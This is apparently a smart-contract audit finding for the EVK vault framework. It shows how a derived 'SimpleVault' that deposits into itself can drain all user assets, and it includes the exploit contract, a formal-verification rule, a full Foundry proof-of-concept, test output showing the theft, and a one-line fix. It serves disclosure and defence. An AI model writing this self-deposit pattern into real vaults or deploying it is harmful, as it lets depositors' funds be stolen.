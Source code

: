 EVK Vault module can deposit to itself allowing to drain all the Assets

## Relevant Context
A seemingly harmless SimpleVault inheriting from the EVK can drain all the Assets of the Vault.

## Finding Description
The EVK VaultModule can deposit into itself, causing an internal inconsistency between the actual Vault balance and `totalAssets()`.
(more precisely between `asset.balanceOf(address(vault))` and `vault.totalAssets()`), even without using any borrowing functionnality.

SimpleVault, a contract inheriting from EVault, that appears completely harmless on its own, can exploit this inconsistency by calling VaultModule code to drain all the Assets of the Vault.


**`SimpleVault` code:**
<details  open>


```solidity

// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.0;

import {EVault} from "src/EVault/EVault.sol";
import {IEVault} from "src/EVault/IEVault.sol";
import {Base} from "src/EVault/shared/Base.sol";

interface ISimpleVaultBase {
    function stake(uint256, address) external returns (uint256);
    function unstake(uint256, address, address) external returns (uint256);
}

interface ISimpleVault is IEVault, ISimpleVaultBase {}

contract SimpleVault is ISimpleVaultBase, EVault {
    constructor(Integrations memory integrations, DeployedModules memory modules) EVault(integrations, modules) {}

    /// Define aliases for 2 main Vault functions
    //  stake == deposit
    function stake(uint256 amount, address receiver) external returns (uint256) {
        return this.deposit(amount, receiver);
    }

    // unstake == withdraw
    function unstake(uint256 amount, address receiver, address owner) external returns (uint256) {
        return this.withdraw(amount, receiver, owner);
    }
}
```
</details>

The hack here is to call `this.deposit` and `this.withdraw` instead of `deposit` and `withdraw` to enable the Vault to be the actual caller. So depositing into itself, implying it's own balance unchanged (due to a tranfer of Assets to itsef, sort of `tranfer(from, to)` with `to == from`)

So anyone can call `stake` with `totalAssets()` amount, and then call `unstake` with the same amount, draining all the Assets of the Vault in 2 transactions.


## Impact Explanation
EVK is unsecure, and can't be used as is as a Kit. If anyone promote a Vault like `SimpleVault` or any other form of EVK derivated Vault, inheriting from `EVault`, extanding it with new modules or modifying existing EVK code, can exploit this weakness and steal all users funds deposited in the Vault, event if the Vault is permissionless.

Main concern here is that `SimpleVault` seems harmless, but use one invisible EVK weakness.


## Likelihood Explanation
As soon as this type of derivated Vault from EVK is deployed, it can be exploited.

The likelihood is high, as the code is public and the exploit is easy to understand and implement.

The only hurdle is to promote this malicious Vault, without audits (saying "it's only 2 lines of code added..."), to attract users and encourange them to deposit funds in it.

Impact is that all sort of Vault like `SimpleVault` derivated from the EVK can drain all the assets in 2 transactions.


## Proof of Concept
Weakness has been found via a Certora rule.

**Certora rule detecting the issue**
<details  open>

```solidity

// Shares are returned only and only if balance of actual caller strictly decrease
rule depositShares(env e, calldataarg args) {
  address caller = actualCaller(e);

  mathint _balanceCaller = userAssets(e, caller);
  uint256 shares = deposit(e, args);
  mathint balanceCaller_ = userAssets(e, caller);

  assert shares > 0 <=> balanceCaller_ < _balanceCaller;
}
```
</details>

This rule has counter examples only when `actualCaller == vault`, i.e. `shares > 0` without balance change

Here is a POC with a forge test, including traces and asserts:

**`DepositSelfHack` POC contract - File `test/contest/DepositSelfHack.sol`:**
<details>

```solidity

 // SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.0;

import {SimpleVaultTest} from "./SimpleVault.t.sol";
import {ISimpleVault} from "src/EVault/SimpleVault.sol";
import {console2} from "forge-std/Test.sol";

contract DepositSelfHack is SimpleVaultTest {
    uint256 one = 1e18;
    address user = makeAddr("user");
    address hacker = makeAddr("hacker");

    function _log(string memory label) public view {
        console2.log(label, "| User   Balance :", assetTST.balanceOf(user));
        console2.log(label, "| Vault  Balance :", assetTST.balanceOf(address(eTST)));
        console2.log(label, "| Total  Assets  :", eTST.totalAssets());
        console2.log(label, "| Hacker Balance :", assetTST.balanceOf(hacker));
        console2.log("------------------------|-------------------------------------");
    }

    function test_depositSelfHack() public {
        assetTST.mint(user, one);
        _log("       User   Mint    1");

        hoax(user);
        assetTST.approve(address(eTST), one);

        assert(assetTST.balanceOf(address(eTST)) == 0);
        assert(assetTST.balanceOf(user) == one);
        assert(assetTST.balanceOf(hacker) == 0);

        hoax(user);
        eTST.deposit(one, user);
        _log("       User   Deposit 1");

        ISimpleVault(address(eTST)).stake(one, address(eTST));
        _log("Buggy  Vault  Deposit 1");

        ISimpleVault(address(eTST)).unstake(one, hacker, address(eTST));
        _log("Hacker Vault  Steal   1");

        assert(assetTST.balanceOf(address(eTST)) == 0);
        assert(assetTST.balanceOf(user) == 0);
        assert(assetTST.balanceOf(hacker) == one);
    }
}

```
</details>

**`SimpleVault` Test Setup - File `test/contest/SimpleVaultTest.sol`:**
<details>

```solidity
// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.13;

import {Test, console2, stdError} from "forge-std/Test.sol";
import {DeployPermit2} from "permit2/test/utils/DeployPermit2.sol";

import {GenericFactory} from "src/GenericFactory/GenericFactory.sol";

import {ProtocolConfig} from "src/ProtocolConfig/ProtocolConfig.sol";

import {Dispatch} from "src/EVault/Dispatch.sol";

import {Initialize} from "src/EVault/modules/Initialize.sol";
import {Token} from "src/EVault/modules/Token.sol";
import {Vault} from "src/EVault/modules/Vault.sol";
import {Borrowing} from "src/EVault/modules/Borrowing.sol";
import {Liquidation} from "src/EVault/modules/Liquidation.sol";
import {BalanceForwarder} from "src/EVault/modules/BalanceForwarder.sol";
import {Governance} from "src/EVault/modules/Governance.sol";
import {RiskManager} from "src/EVault/modules/RiskManager.sol";

// import {EVault} from "src/EVault/EVault.sol";
// import {ISimpleVault, IERC20} from "src/EVault/ISimpleVault.sol";
import {SimpleVault, ISimpleVault} from "src/EVault/SimpleVault.sol";

import {TypesLib} from "src/EVault/shared/types/Types.sol";
import {Base} from "src/EVault/shared/Base.sol";

import {EthereumVaultConnector} from "ethereum-vault-connector/EthereumVaultConnector.sol";

import {TestERC20} from "test/mocks/TestERC20.sol";
import {MockBalanceTracker} from "test/mocks/MockBalanceTracker.sol";
import {MockPriceOracle} from "test/mocks/MockPriceOracle.sol";
import {IRMTestDefault} from "test/mocks/IRMTestDefault.sol";
import {IHookTarget} from "src/interfaces/IHookTarget.sol";
import {SequenceRegistry} from "src/SequenceRegistry/SequenceRegistry.sol";

import {AssertionsCustomTypes} from "test/helpers/AssertionsCustomTypes.sol";

import "src/EVault/shared/Constants.sol";

contract SimpleVaultTest is AssertionsCustomTypes, Test, DeployPermit2 {
    EthereumVaultConnector public evc;
    address admin;
    address feeReceiver;
    address protocolFeeReceiver;
    ProtocolConfig protocolConfig;
    address balanceTracker;
    MockPriceOracle oracle;
    address unitOfAccount;
    address permit2;
    address sequenceRegistry;
    GenericFactory public factory;

    TestERC20 assetTST;

    ISimpleVault public eTST;

    address initializeModule;
    address tokenModule;
    address vaultModule;
    address borrowingModule;
    address liquidationModule;
    address riskManagerModule;
    address balanceForwarderModule;
    address governanceModule;

    Base.Integrations integrations;
    Dispatch.DeployedModules modules;

    function setUp() public virtual {
        admin = vm.addr(1000);
        feeReceiver = makeAddr("feeReceiver");
        protocolFeeReceiver = makeAddr("protocolFeeReceiver");
        factory = new GenericFactory(admin);

        evc = new EthereumVaultConnector();
        protocolConfig = new ProtocolConfig(admin, protocolFeeReceiver);
        balanceTracker = address(new MockBalanceTracker());
        oracle = new MockPriceOracle();
        unitOfAccount = address(1);
        permit2 = deployPermit2();
        sequenceRegistry = address(new SequenceRegistry());
        integrations =
            Base.Integrations(address(evc), address(protocolConfig), sequenceRegistry, balanceTracker, permit2);

        initializeModule = address(new Initialize(integrations));
        tokenModule = address(new Token(integrations));
        vaultModule = address(new Vault(integrations));
        borrowingModule = address(new Borrowing(integrations));
        liquidationModule = address(new Liquidation(integrations));
        riskManagerModule = address(new RiskManager(integrations));
        balanceForwarderModule = address(new BalanceForwarder(integrations));
        governanceModule = address(new Governance(integrations));

        modules = Dispatch.DeployedModules({
            initialize: initializeModule,
            token: tokenModule,
            vault: vaultModule,
            borrowing: borrowingModule,
            liquidation: liquidationModule,
            riskManager: riskManagerModule,
            balanceForwarder: balanceForwarderModule,
            governance: governanceModule
        });

        address evaultImpl = address(new SimpleVault(integrations, modules));

        vm.prank(admin);
        factory.setImplementation(evaultImpl);

        assetTST = new TestERC20("Test Token", "TST", 18, false);
        eTST = ISimpleVault(
            factory.createProxy(address(0), true, abi.encodePacked(address(assetTST), address(oracle), unitOfAccount))
        );
        eTST.setInterestRateModel(address(new IRMTestDefault()));
        eTST.setMaxLiquidationDiscount(0.2e4);
        eTST.setFeeReceiver(feeReceiver);
    }

    address internal SYNTH_VAULT_HOOK_TARGET = address(new MockHook());
    uint32 internal constant SYNTH_VAULT_HOOKED_OPS = OP_DEPOSIT | OP_MINT | OP_REDEEM | OP_SKIM | OP_REPAY_WITH_SHARES;

    function createSynthEVault(address asset) internal returns (ISimpleVault) {
        ISimpleVault v = ISimpleVault(
            factory.createProxy(address(0), true, abi.encodePacked(address(asset), address(oracle), unitOfAccount))
        );
        v.setInterestRateModel(address(new IRMTestDefault()));

        v.setInterestFee(1e4);

        v.setHookConfig(SYNTH_VAULT_HOOK_TARGET, SYNTH_VAULT_HOOKED_OPS);

        return v;
    }

    function getSubAccount(address primary, uint8 subAccountId) internal pure returns (address) {
        require(subAccountId <= 256, "invalid subAccountId");
        return address(uint160(uint160(primary) ^ subAccountId));
    }
}

contract MockHook is IHookTarget {
    error E_OnlyAssetCanDeposit();
    error E_OperationDisabled();

    function isHookTarget() external pure override returns (bytes4) {
        return this.isHookTarget.selector;
    }

    // deposit is only allowed for the asset
    function deposit(uint256, address) external view {
        address asset = ISimpleVault(msg.sender).asset();

        // these calls are just to test if there's no RO-reentrancy for the hook target
        ISimpleVault(msg.sender).totalBorrows();
        ISimpleVault(msg.sender).balanceOf(address(this));

        if (asset != caller()) revert E_OnlyAssetCanDeposit();
    }

    // all the other hooked ops are disabled
    fallback() external {
        revert E_OperationDisabled();
    }

    function caller() internal pure returns (address _caller) {
        assembly {
            _caller := shr(96, calldataload(sub(calldatasize(), 20)))
        }
    }
}

```
</details>

**`forge test --mt depositSelfHack -vv` produces this output:**
<details open>

```
 » forge test --mt depositSelfHack -vv
[⠒] Compiling...
No files changed, compilation skipped

Ran 1 test for test/contest/DepositSelfHack.t.sol:SimpleVault_DepositSelfHack
[PASS] test_depositSelfHack() (gas: 379373)
Logs:
         User   Mint    1 | User   Balance : 1000000000000000000
         User   Mint    1 | Vault  Balance : 0
         User   Mint    1 | Total  Assets  : 0
         User   Mint    1 | Hacker Balance : 0
  ------------------------|-------------------------------------
         User   Deposit 1 | User   Balance : 0
         User   Deposit 1 | Vault  Balance : 1000000000000000000
         User   Deposit 1 | Total  Assets  : 1000000000000000000
         User   Deposit 1 | Hacker Balance : 0
  ------------------------|-------------------------------------
  Buggy  Vault  Deposit 1 | User   Balance : 0
  Buggy  Vault  Deposit 1 | Vault  Balance : 1000000000000000000
  Buggy  Vault  Deposit 1 | Total  Assets  : 2000000000000000000
  Buggy  Vault  Deposit 1 | Hacker Balance : 0
  ------------------------|-------------------------------------
  Hacker Vault  Steal   1 | User   Balance : 0
  Hacker Vault  Steal   1 | Vault  Balance : 0
  Hacker Vault  Steal   1 | Total  Assets  : 1000000000000000000
  Hacker Vault  Steal   1 | Hacker Balance : 1000000000000000000
  ------------------------|-------------------------------------

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.88ms (1.05ms CPU time)

Ran 1 test suite in 154.01ms (4.88ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
</details>

## Recommendation

To prevent this weakness, add a one line check to prevent the Vault from depositing to itself.

**`Vault.sol` `deposit` function - Lines 123-128 of File `src/EVault/modules/Vault.sol`:**
<details  open>

```diff
    /// @inheritdoc IERC4626
    function deposit(uint256 amount, address receiver) public virtual nonReentrant returns (uint256) {
        (VaultCache memory vaultCache, address account) = initOperation(OP_DEPOSIT, CHECKACCOUNT_NONE);
+       require(account != address(this), "Vault: cannot deposit to self");

        Assets assets = amount == type(uint256).max ? vaultCache.asset.balanceOf(account).toAssets() : amount.toAssets();
        if (assets.isZero()) return 0;

```

</details>